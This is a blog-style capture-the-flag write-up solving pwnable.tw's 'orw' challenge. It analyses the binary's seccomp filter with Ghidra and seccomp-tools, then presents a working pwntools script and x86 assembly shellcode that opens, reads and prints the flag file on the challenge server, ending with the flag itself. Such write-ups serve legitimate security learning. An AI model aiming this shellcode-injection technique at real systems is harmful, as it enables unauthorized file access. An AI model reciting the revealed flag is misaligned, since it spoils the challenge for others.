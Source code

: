 ```yaml
---
layout: post
title:  "Solving pwnable's - orw - 2/???"
date:   2023-01-11 11:00:34 -0400
---
```


[https://pwnable.tw](https://pwnable.tw/)

The challenge description says:

Only `open` `read` `write` syscalls are allowed to use.

But is that enforced? How?

### Seccomp

Taking a look using the ghidra decompiler:

```c
void orw_seccomp(void)
{
  int iVar1;
  undefined4 *puVar2;
  undefined4 *puVar3;
  int in_GS_OFFSET;
  undefined2 local_88 [2];
  undefined4 *local_84;
  undefined4 local_80 [24];
  int local_20;
  
  local_20 = *(int *)(in_GS_OFFSET + 0x14);
  puVar2 = &DAT_08048640;
  puVar3 = local_80;
  for (iVar1 = 0x18; iVar1 != 0; iVar1 = iVar1 + -1) {
    *puVar3 = *puVar2;
    puVar2 = puVar2 + 1;
    puVar3 = puVar3 + 1;
  }
  local_88[0] = 0xc;
  local_84 = local_80;
  prctl(0x26,1,0,0,0);
  prctl(0x16,2,local_88);
  if (local_20 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

There are 3 interesting things in this code, the function name, a call to a function that I don't recognize, and the `in_GS_OFFSET` thing.

The `in_GS_OFFSET` seems to be related to stack canaries, so I didn't look into it any further.

[seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html) is a computer security facility in the Linux kernel and is probably what is filtering the syscalls.

[prctl](https://man7.org/linux/man-pages/man2/prctl.2.html) manipulates various aspects of the behavior of the calling thread or process, this is how seccomp is set in a process.

The first call sets the PR\_SET\_NO\_NEW\_PRIVS flag and the second one sets the PR\_SET\_SECCOMP flag.

You can find what each flag does with the command `man prctl` also, you can look at the file that defines the flags: [linux/prctl.h](https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h).

The first flag limits the privileges that execve can grant.

The second one sets seccomp on the process.

According to [linux/seccomp.h](https://github.com/torvalds/linux/blob/master/include/uapi/linux/seccomp.h), 2 on the 2nd argument sets the seccomp mode to filter which takes a struct as the 3rd argument with the allowed syscalls.

There is a very useful tool to find out what the seccomp rules are being used in the binary. It's called [seccomp-tools](https://github.com/david942j/seccomp-tools) and it gives the following output:

```csharp
line  CODE  JT   JF      K
=================================
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

So it is blocking every call other than those listed. Because of that, it doesn't seem like we can get remote code execution, but we just need to read the flag anyway.

The struct with the syscalls in the decompiled code is the `&DAT_08048640` variable. We then can look at what is in that address in memory and check that it matches the output from seccomp-tools:

```plaintext
0000: 0x20 0x00 0x00 0x00000004  A = arch

08048640 20 00 00 00     undefined4 00000020h
08048644 04              ??         04h
08048645 00              ??         00h
08048646 00              ??         00h
08048647 00              ??         00h
---

0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011

08048648 15              ??         15h
08048649 00              ??         00h
0804864a 00              ??         00h
0804864b 09              ??         09h
0804864c 03              ??         03h
0804864d 00              ??         00h
0804864e 00              ??         00h
0804864f 40              ??         40h
---
```

I think it's possible to make ghidra recognize this data as a struct on the decompiler but I haven't figured out how to do it.

The man page says that it should be a `sock_filter` struct but the ghidra datatypes don't have that and I haven't played with ghidra that much.

### Actual Binary

The way the challenge works is, it asks us for a shellcode and it runs or seccomp crashes it. Pretty straightforward.

Here is my solution:

```python
from pwn import *
from subprocess import Popen, PIPE
import sys


def shellcode_from_objdump(obj):
    res = ""
    assemble = Popen(["as", "--32", f"{obj}.s", "-o", f"{obj}.o"]).wait()
    link = Popen(["ld", "-m", "elf_i386", f"{obj}.o", "-o", f"{obj}"]).wait()
    p = Popen(["objdump", "-d", obj], stdout=PIPE, stderr=PIPE)
    (stdoutdata, stderrdata) = p.communicate()
    if p.returncode == 0:
        for line in stdoutdata.splitlines():
            line = line.decode("utf-8")
            cols = line.split("\t")
            if len(cols) > 2:
                for b in [b for b in cols[1].split(" ") if b != ""]:
                    res = res + ("\\x%s" % b)
    else:
        raise ValueError(stderrdata)

    return b"".join([bytes.fromhex(byte) for byte in res.split("\\x")[1:]])


shellcode = shellcode_from_objdump("/mnt/hgfs/pwn/exploit")
send = b"AAAAAAAAAAAAAAAAAAAA"

# p = gdb.debug("./orw", gdbscript="b *0x8048585\n conti\n ni\n si")
# p = process("./orw")
p = remote("chall.pwnable.tw", 10001)

print(f"Recv 1: {p.recv()}")
p.send(shellcode)
print(f"Recv 2: {p.recv()}")
```

```cpp
.intel_syntax noprefix

.text
  .global _start

_start:
  # open
  mov eax, 0x5
  push 0x6761
  push 0x6c662f77
  push 0x726f2f65
  push 0x6d6f682f
  mov ebx, esp
  mov ecx, 0x0
  mov edx, 0777
  int 0x80

  # read
  mov ebx, eax
  mov eax, 0x3
  push 0
  push 0
  push 0
  lea ecx, [esp]
  mov edx, 0x64
  int 0x80

  # write
  mov eax, 0x4
  mov ebx, 0x1
  mov edx, 0x64
  int 0x80
```

The python script reads and converts the assembly file to shellcode by doing `as --32 exploit.s -o exploit.o && ld -m elf_i386 exploit.o -o exploit` and then using `objdump -D exploit` to get the actual code.

It is a pretty useful assembly playground, you can edit the assembly run the program and get a good feedback loop going. Found the objdump code from [gist](https://gist.github.com/duanckham/0b9ec0f55b6593cdffb5).

flag: **FLAG{sh3llc0ding\_w1th\_op3n\_r34d\_writ3}**
